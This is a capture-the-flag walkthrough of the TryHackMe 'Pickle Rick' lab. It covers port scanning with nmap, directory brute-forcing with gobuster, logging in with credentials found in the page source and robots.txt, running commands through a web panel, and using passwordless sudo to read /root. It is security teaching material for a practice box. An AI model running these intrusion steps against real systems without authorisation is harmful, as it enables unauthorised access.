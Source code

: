# TryHackMe: Pickel Rick

https://tryhackme.com/room/picklerick

## 1. Network Enumeration

Use `nmap` to run a quick port scan to see what services are running on the box:

```
$ nmap 10.10.175.144   

Starting Nmap 7.80 ( https://nmap.org ) at 2024-01-26 12:55 CET
Nmap scan report for 10.10.175.144
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 34.24 seconds
```

We see that this box is running the following services: SSH and HTTP. Let's take a look at the HTTP server.

## 2. Web Server

The home page of the web server tells us that we need to find three secret ingredients, but doesn't appear to show any other useful information. However, if we view source, we can see Rick's username: `R1ckRul3s`! We'll write that down for later, but for now lets start `gobuster` to see if we can find any hidden web pages.

```
$ gobuster -u http://<ip-address> -w /usr/share/wordlists/dirb/common.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://<ip-address>/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirb/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2024/01/22 19:19:01 Starting gobuster
=====================================================
/.hta (Status: 403)
/.hta.html (Status: 403)
/.hta.txt (Status: 403)
/.hta.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.php (Status: 403)
/assets (Status: 301)
/denied.php (Status: 302)
/index.html (Status: 200)
/index.html (Status: 200)
/login.php (Status: 200)
/portal.php (Status: 302)
/robots.txt (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
=====================================================
2024/01/22 19:20:31 Finished
=====================================================
```

We do find a login page at `/login.php`, but we don't have a password. We could try brute forcing, but I'll look at the other files and directories first. `/robots.txt` contains a string, possibly a password: <redacted>. Let's try loging in at `/login.php` using the credentials we found.

## 3. File System Exploration

We were able to login, which brings us to `/portal.php`. This page seems to be a terminal that we can interact with. Let's try some basic commands:

```
$ whoami
www-data
$ ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

Looks like we found our first secret ingredient! Use the `less` command to view it's contents. We also found the file `clue.txt`, which tells us to keep looking around the file system to find the other ingredients.

Let's check if there are any users who's home directory we have access to.

```
$ ls /home
rick
ubuntu
$ ls /home/rick
second ingredients
```

We found our second ingredient in a file called `second ingredients`! One to go!

## 4. Privilege Escalation

The last flag is most likely hidden in the `/root` directory, but we do not have access to it. We need to find a way to escalate our privileges. Let's check if we're allowed to use `sudo` on this machine:

```
$ sudo -l
Matching Defaults entries for www-data on ip-10-10-175-144.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-175-144.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Oh. We can run anything as `root` and don't even need a passwordl. Let's check out the `root` directory then and find the final ingredient:

```
$ sudo ls /root
3rd.txt
snap
$ sudo less /root/3rd.txt
<redacted>
```